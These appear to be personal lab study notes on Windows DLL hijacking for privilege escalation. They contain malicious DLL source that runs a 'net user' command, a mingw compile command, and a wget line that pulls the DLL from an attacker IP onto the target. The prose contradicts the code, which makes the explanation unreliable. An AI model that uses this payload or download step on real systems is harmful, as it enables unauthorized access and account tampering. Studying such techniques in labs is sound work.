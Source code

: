Windows uses many DLL files, as you can see simply by visiting the `C:\Windows\System32`folder in any Windows.

#enumerate/windows/DLLHijacking

The tool you can use to find potential DLL hijacking vulnerabilities is `Process Monitor` (ProcMon).


#/windows/creating/maliciousDLL 

```shell-session
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user jack Password11");
        ExitProcess(0);
    }
    return TRUE;
}`

```

Leaving aside the boilerplate parts, you can see this file will execute the `whoami` command (`cmd.exe /k whoami`) and save the output in a file called "dll.txt".

  The mingw compiler can be used to generate the DLL file with the command given below:
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

  
  You can easily install the Mingw compiler using the `apt install gcc-mingw-w64-x86-64` command.
  
  You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.

  Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: `wget -O hijackme.dll 10.9.9.67:8000/hijackme.dll`
  [[Windows Privesc]]